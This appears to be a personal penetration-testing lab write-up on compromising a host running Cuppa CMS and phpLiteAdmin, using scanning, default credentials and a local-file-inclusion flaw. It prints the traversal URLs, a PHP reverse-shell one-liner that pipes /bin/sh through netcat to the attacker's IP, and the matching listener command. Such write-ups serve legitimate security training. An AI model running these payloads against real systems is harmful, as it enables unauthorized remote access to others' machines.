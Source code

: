 Getting a Foothold

Getting a Foothold

# Works
1. Run NMAP scans to find open ports

2. Run dirb. Found 2 interesting directories: /administrator and /db

3. View the login page for Cuppa CMS

4. Find default credentials for Cuppa CMS (admin:admin). They work! Creds for the cuppa db is found there

5. View the login page for phpLiteAdmin. Didn't need any password! Creds for several users is found there.

6. Run Nikto scan. It specifies that /administrator and /db are interesting.

7. Try the Cuppa CMS LFI/RFI exploit on the target. It works for directory traversal!
`http://10.11.1.116/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd`
![949042314ae4b1bf7524940b0b4971bc.png](../../../_resources/bae7dd2683bf4ccb9129cb54a943ec1a.png)

8. Attempt RFI by using the phpLiteAmin exploit 24044.txt

9. In phpLiteAdmin, create a new database named hack.sqlite
![68ca9ee88d952ef89ffb569e85b91644.png](../../../_resources/201b13880fab438fa45c0bf354991879.png)

10. Rename hack.sqlite to hack.php
![ef6a3de0fed43f1f6569f20080780149.png](../../../_resources/7229bccd84094cb099fef3942e3ae6c8.png)

11. Add a new table to hack.php. This example named it 'hacktable' and input number of fields = 1
![914b732f5b8b02914cfa98eed5ccd7e4.png](../../../_resources/72f5a4db054a4c5faa1a798f3d4462a1.png)

12. Add a new field. This example named it 'hackfield', type 'TEXT', and Default Value is a php command for a reverse shell. The following php code uses netcat client to connect to our kali attack machine on port 1937:

`<?php echo shell_exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.119.214 1937 >/tmp/f") ?>`

Verify that table 'hacktable' has been created
![a81cc16caaf862dbd02aae6dfef481d2.png](../../../_resources/52bd373f96e44afba3cb49a96655a51a.png)

Close-up view of the php code
![86703d1ec41ffe13d3a146539f996818.png](../../../_resources/639418bf8d484519bfcd326edbe58af0.png)

13. Verify the path where the injected php code is stored. This is the LFI. The path to this code is:
### /usr/local/databases/hack.php
![7e1e832b6a0df2f5c25e0fa5c806e19b.png](../../../_resources/1d086cf2e5f94951ac3827bf2f989bf5.png)

14. Open a netcat listener on port 1937
`nc -lvnp 1937`
![2a5ddfce2844270caf7b1a1e1e2581c0.png](../../../_resources/8ede21e0cdc44290bebf6597f4e17604.png)

15. Browse to our code by utilizing the previous Cuppa CMS exploit.
`http://10.11.1.116/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../usr/local/databases/hack.php`
![0bdc65fc5cb04483a0432818de046a0d.png](../../../_resources/a15ac7f5175f4fbb96225aad3b920567.png)

16. Notice we now have a reverse shell
![cb994df4fe8482b8a61f531e18fe5ec7.png](../../../_resources/3b91b601f5644970a5beefe6f0bbdfc9.png)

